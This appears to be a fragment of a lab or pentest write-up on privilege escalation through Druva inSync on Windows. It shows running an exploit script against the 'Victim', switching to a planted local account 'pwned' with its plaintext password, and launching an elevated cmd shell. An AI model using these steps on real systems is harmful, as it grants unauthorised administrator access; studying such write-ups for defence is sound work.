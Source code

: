**Victim**

```
cd C:\tools\
.\Druva_inSync_exploit.ps1
```

<figure><img src="../../.gitbook/assets/image (28) (2).png" alt=""><figcaption></figcaption></figure>

**Victim(Powershell)**

```
runas /user:pwned "C:\Windows\system32\cmd.exe"
Enter the password for pwnd: SimplePass123
```

**Victim(cmd)**

```
powershell.exe -Command "Start-Process cmd "/k cd /d %cd%" -Verb RunAs"
```

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

